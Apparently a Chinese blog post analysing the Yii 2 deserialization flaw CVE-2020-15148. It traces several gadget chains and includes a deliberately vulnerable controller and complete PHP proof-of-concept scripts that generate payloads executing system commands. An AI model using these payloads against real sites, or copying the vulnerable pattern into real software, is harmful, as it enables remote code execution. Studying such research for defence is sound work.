

title: CVE-2020-15148 Yii框架反序列化
no-emoji: false
date: 2020-09-21 13:49:01
tags:
top:
影响范围
选择一个漏洞影响的版本 yii-basic-app-2.0.37.tgz
下载后解压到 web 目录下，修改配置文件 config/web.php ，给 cookieValidationKey 字段设置一个值。
然后添加一个存在漏洞的 Action/controllers/TestController.php
<?php
namespace app\controllers;
use Yii;
use yii\web\Controller;
class TestController extends Controller
{
public function actionTest(){
$name = Yii::$app->request->get('unserialize');
return unserialize(base64_decode($name));
}
}
?>测试运行成功

查看 github 的 commit 记录
发现在 /db/BatchQueryResult.php 中新增了 __wakeup() 方法，在 __wakeup() 方法中抛出异常。
unserialize() 会检查是否存在一个 __wakeup() 方法。如果存在，则会先调用 __wakeup 方法，预先准备对象需要的资源。
利用 __wakeup() 方法抛出一个异常，本质上是为了防止 BatchQueryResult 类被反序列化。
猜测 BatchQueryResult 类为反序列化的起点
vendor/yiisoft/yii2/db/BatchQueryResult.php::__destruct
public function __destruct()
{
// make sure cursor is closed
$this->reset();
}
public function reset()
{
if ($this->_dataReader !== null) {
$this->_dataReader->close();
}
$this->_dataReader = null;
$this->_batch = null;
$this->_value = null;
$this->_key = null;
}__destruct ( void ) : void
析构函数会在到某个对象的所有引用都被删除或者当对象被显式销毁时执行。
__destruct 方法里面调用了 reset 方法， reset 方法里面又调用了 close 方法。$this->_dataReader 的值可控，所以可以当作跳板去执行其他类中的魔术方法 __call() 方法。
public __call ( string $name , array $arguments ) : mixed
在对象中调用一个不可访问方法时，__call() 会被调用。
$name 参数是要调用的方法名称。$arguments 参数是一个枚举数组，包含着要传递给方法 $name 的参数。
了解 __call() 方法之后，我们就可以进行全局搜索，找到其中不包含 close方法的类，就可以执行该类的__call() 方法。
全局搜索 function __call(
vendor/fzaninotto/faker/src/Faker/Generator.php::__call
public function __call($method, $attributes)
{
return $this->format($method, $attributes);
}跟进 format
vendor/fzaninotto/faker/src/Faker/Generator.php::format
public function format($formatter, $arguments = array())
{
return call_user_func_array($this->getFormatter($formatter), $arguments);
}format 中调用了 call_user_func_array 方法 ，$formatter 与 $agruments 我们都不可控。此时 $formatter = close,$agruments为空。
$formatter 传递至 getFormatter()vendor/fzaninotto/faker/src/Faker/Generator.php::getFormatter
public function getFormatter($formatter)
{
if (isset($this->formatters[$formatter])) {
return $this->formatters[$formatter];
}
foreach ($this->providers as $provider) {
if (method_exists($provider, $formatter)) {
$this->formatters[$formatter] = array($provider, $formatter);
return $this->formatters[$formatter];
}
}
throw new \InvalidArgumentException(sprintf('Unknown formatter "%s"', $formatter));
}我们注意到在 getFormatter 方法中，$this->formatters[$formatter] 是我们可以控制的，getFormatter 方法返回值是可控的。那么 call_user_func_array 这个函数的第一个参数可控，第二个参数为空。此时我们就可以调用 yii 框架中的任何一个无参的方法了。
call_user_func_array ( callable $callback , array $param_arr ) : mixed
把第一个参数作为回调函数（callback）调用，把参数数组作（param_arr）为回调函数的参数传入。
调用类中的公共方法可以利用call_user_func_array(['类名','类中的方法'],[]);
全局搜索 call_user_func\(\$this->([a-zA-Z0-9]+), \$this->([a-zA-Z0-9]+) 找到使用 call_user_func 函数，且参数为类中成员变量的所有方法。
利用其中的 vendor/yiisoft/yii2/rest/CreateAction.php::run
public function run()
{
if ($this->checkAccess) {
call_user_func($this->checkAccess, $this->id);
}
......
} $this->checkAccess 以及 $this->id 都可控
所以利用链为：
yii\db\BatchQueryResult::__destruct()
yii\db\BatchQueryResult::reset()
Faker\Generator::__call()
Faker\Generator::format(‘close’,[])
call_user_func_array([‘new yii\rest\CreateAction’,’run’],[])
yii\rest\CreateAction::run()
call_user_func(‘system’,’whoami’)
$n = yii\db\BatchQueryResult{
$this->_dataReader = Faker\Generator{
$this->formatters['close'] = [
yii\rest\CreateAction{
$this->checkAccess = 'system';
$this->id = 'whoami';
}
,'run'];
}
}POC
<?php
namespace yii\rest{
class CreateAction{
public $checkAccess;
public $id;
public function __construct(){
$this->checkAccess = 'system';
$this->id = 'whoami';
}
}
}
namespace Faker{
use yii\rest\CreateAction;
class Generator{
protected $formatters;
public function __construct(){
$this->formatters['close'] = [new CreateAction(), 'run'];
}
}
}
namespace yii\db{
use Faker\Generator;
class BatchQueryResult{
private $_dataReader;
public function __construct(){
$this->_dataReader = new Generator;
}
}
}
namespace{
echo base64_encode(serialize(new yii\db\BatchQueryResult));
}
?>BatchQueryResult 类仍为反序列化的起点，不利用魔术方法 __call()，选择将 $this->_dataReader 赋值为一个存在 close 方法的类，找到该类中 close方法调用中存在代码执行。
\yii2\web\DbSession::close
public function close()
{
if ($this->getIsActive()) {
// prepare writeCallback fields before session closes
$this->fields = $this->composeFields();
YII_DEBUG ? session_write_close() : @session_write_close();
}
}当 $this->getIsActive() 为 true 时，则会调用 $this->composeFields()
跟进 DbSession 的父类 MultiFieldSession 的父类 Session\yii2\web\Session::getIsActive
public function getIsActive()
{
return session_status() === PHP_SESSION_ACTIVE;
}当Yii的debug和gii这两个默认扩展都存在（不一定要开启）时，这里返回true。否则返回false。默认安装情况下都返回true。
跟进 composeFields 方法，在DbSession 的父类 MultiFieldSession 中实现\yii\web\MultiFieldSession::composeFields
protected function composeFields($id = null, $data = null)
{
$fields = $this->writeCallback ? call_user_func($this->writeCallback, $this) : [];
if ($id !== null) {
$fields['id'] = $id;
}
if ($data !== null) {
$fields['data'] = $data;
}
return $fields;
}发现调用了call_user_func函数， $this->writeCallback 可控，其余参数不可控。可以通过控制 $this->writeCallback 为 [‘类名’,’类中的方法’] 来实现调用类中的方法。
全局搜索 call_user_func\(\$this->([a-zA-Z0-9]+)
利用其中的 \yii\rest\IndexAction::run
public function run()
{
if ($this->checkAccess) {
call_user_func($this->checkAccess, $this->id);
}
return $this->prepareDataProvider();
}所以利用链为：
yii\db\BatchQueryResult::__destruct()
yii\db\BatchQueryResult::reset()
yii\web\DbSession::close()
yii\web\MultiFieldSession::composeFields()
call_user_func_array([‘new yii\rest\IndexAction’,’run’],[])
yii\rest\IndexAction::run()
call_user_func(‘system’,’whoami’)
POC
<?php
namespace yii\rest {
class IndexAction
{
public $checkAccess;
public $id;
public function __construct()
{
$this->checkAccess = 'system';
$this->id = 'whoami';
}
}
}
namespace yii\web {
use yii\rest\IndexAction;
class DbSession
{
public $writeCallback;
public function __construct()
{
$this->writeCallback = [new IndexAction(), "run"];
}
}
}
namespace yii\db {
use yii\web\DbSession;
class BatchQueryResult
{
private $_dataReader;
public function __construct()
{
$this->_dataReader = new DbSession();
}
}
}
namespace{
echo base64_encode(serialize(new yii\db\BatchQueryResult));
}\Codeception\Extension\RunProcess::__destruct
public function __destruct()
{
$this->stopProcess();
}\Codeception\Extension\RunProcess::stopProcess
public function stopProcess()
{
foreach (array_reverse($this->processes) as $process) {
/** @var $process Process **/
if (!$process->isRunning()) {
continue;
}
$this->output->debug('[RunProcess] Stopping ' . $process->getCommandLine());
$process->stop();
}
$this->processes = [];
}注意到 RunProcess 中的 __destruct 方法调用了 stopProcess() 方法， stopProcess() 方法 中的 $this->processes 可控，则 $process 可控，下面调用了 $process->isRunning() ，则又可以利用魔术方法 __call()。
利用链
\Codeception\Extension\RunProcess::__destruct()
\Codeception\Extension\RunProcess::stopProcess()
Faker\Generator::__call()
Faker\Generator::format(‘close’,[])
call_user_func_array([‘new yii\rest\CreateAction’,’run’],[])
yii\rest\CreateAction::run()
call_user_func(‘system’,’whoami’)
poc
<?php
namespace yii\rest{
class CreateAction{
public $checkAccess;
public $id;
public function __construct(){
$this->checkAccess = 'system';
$this->id = 'whoami';
}
}
}
namespace Faker{
use yii\rest\CreateAction;
class Generator{
protected $formatters;
public function __construct(){
$this->formatters['isRunning'] = [new CreateAction(), 'run'];
}
}
}
namespace Codeception\Extension{
use Faker\Generator;
class RunProcess{
private $processes;
public function __construct(){
$this->processes = [new Generator];
}
}
}
namespace{
echo base64_encode(serialize(new Codeception\Extension\RunProcess));
}
?>\Swift_KeyCache_DiskKeyCache::__destruct
public function __destruct()
{
foreach ($this->keys as $nsKey => $null) {
$this->clearAll($nsKey);
}
}\Swift_KeyCache_DiskKeyCache::clearAll
public function clearAll($nsKey)
{
if (array_key_exists($nsKey, $this->keys)) {
foreach ($this->keys[$nsKey] as $itemKey => $null) {
$this->clearKey($nsKey, $itemKey);
}
if (is_dir($this->path.'/'.$nsKey)) {
rmdir($this->path.'/'.$nsKey);
}
unset($this->keys[$nsKey]);
}
}因为 $nsKey $this->keys 可控，跟进$this->clearKey(·
\Swift_KeyCache_DiskKeyCache::clearKey
public function clearKey($nsKey, $itemKey)
{
if ($this->hasKey($nsKey, $itemKey)) {
$this->freeHandle($nsKey, $itemKey);
unlink($this->path.'/'.$nsKey.'/'.$itemKey);
}
}$this->path 可控 ，进行了字符串的拼接操作，可以利用魔术方法 __toString 触发后续操作。
__toString() 方法用于一个类被当成字符串时应怎样回应。
然后全局搜索 __toString 方法
\phpDocumentor\Reflection\DocBlock\Tags\See::__toString
public function __toString() : string
{
return $this->refers . ($this->description ? ' ' . $this->description->render() : '');
}$this->description 可控，则又可以利用魔术方法 __call()。
利用链
\Swift_KeyCache_DiskKeyCache::__destruct()
\Swift_KeyCache_DiskKeyCache::clearAll()
\Swift_KeyCache_DiskKeyCache::clearKey()
\phpDocumentor\Reflection\DocBlock\Tags\See::__toString()
\Faker\Generator::__call()
\Faker\Generator::format(‘close’,[])
\call_user_func_array([‘new yii\rest\CreateAction’,’run’],[])
\yii\rest\CreateAction::run()
\call_user_func(‘system’,’whoami’)
Swift_KeyCache_DiskKeyCache -> phpDocumentor\Reflection\DocBlock\Tags\See::__toString()-> Faker\Generator::__call() -> yii\rest\IndexAction::run()